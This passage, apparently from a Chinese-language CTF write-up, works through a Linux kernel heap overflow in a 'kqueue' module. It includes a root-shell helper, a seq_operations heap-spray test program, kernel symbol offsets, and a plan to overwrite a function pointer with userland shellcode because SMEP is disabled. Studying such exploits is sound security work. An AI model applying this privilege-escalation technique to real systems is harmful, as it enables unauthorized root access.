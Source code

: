 ```c

void getShell(){
    info_log("Ready to get root......");
    if(getuid()){
        error_log("Failed to get root!");
    }
    success_log("Root got!");
    system("/bin/sh");
}

#endif //ROOTFS_HEAP_OVERFLOW_H
```

另外注意，本题中的所有检查实际上都是虚张声势，因为err函数并没有让程序强制退出，仅仅只是输出了一行错误信息就允许继续运行下去了。因此利用的思路可以尽情放开。

刚刚打开qemu时，笔者想用调试的方法查看LKM的运行过程。实际上，如果能够读取到``/sys/module/kqueue/.text``、``/sys/module/kqueue/.data``、``/sys/module/kqueue/.bss``的值或使用``lsmod``命令，就能够获取到LKM相应段的基址，但本题中权限不允许。这就比较麻烦了，需要首先将断点下在用户态程序中，然后一步一步跟踪到内核找到相应函数的调用位置。笔者尝试过通过搜索字符串等方式获取基址，但都失败了。这也是笔者认为这道题最为恶心的一个部分了。~~（毕竟耗了一个晚上）~~

不过本题还好，不是太需要用到调试，下面的调试仅为演示。

测试代码：
```c
//
// Created by root on 22-7-13.
//

#include "heap_overflow.h"

size_t user_cs, user_ss, user_rflags, user_sp;

int main(){
    int seq_fd[0x200];

    save_status();
    int fd = open("/dev/kqueue", O_RDONLY);
    if(fd < 0)
        error_log("Cannot open /dev/kqueue!");

    request_t create_req = {
            .max_entries = 0xFFFFFFFF,
            .data_size = 0x20 * 8
    };
    for (int i = 0; i < 0x200; i++)
        seq_fd[i] = open("/proc/self/stat", O_RDONLY);
    ioctl(fd, CREATE_KQUEUE, &create_req);
    return 0;
}
```

这是进入ioctl函数中内核的执行情况，在kmalloc分配到内存后，查看周围的内存环境，发现有大量的重复内容，推测这就是前面0x200次打开stat文件申请到的seq_operations结构体。

![](5.png)
我们可以在IDA中打开vmlinux，找到执行start函数指针的位置（函数名为seq_read）：
![](6.png)
其与内核基址地址的差为0x201179。再找到``commit_creds``和``prepare_kernel_cred``的基址：
prepare_kernel_cred：偏移0x8C580。
![](7.png)
commit_creds：偏移0x8C140
![在这里插入图片描述](https://img-blog.csdnimg.cn/397f050e23dc49e4a4ec2287a2ed1400.png)
在调用start前，内核将下一条指令的地址压入栈中，我们利用的就是这个地址，来获取内核的加载基址，进而执行``commit_cred(prepare_kernel_cred(NULL))``函数。自然地，我们可以写一个shellcode来完成这件事情。由于本题没有开启SMEP，因此我们可以直接用用户态的shellcode地址覆盖seq_operations中的地址，内核可以执行用户态的shellcode。
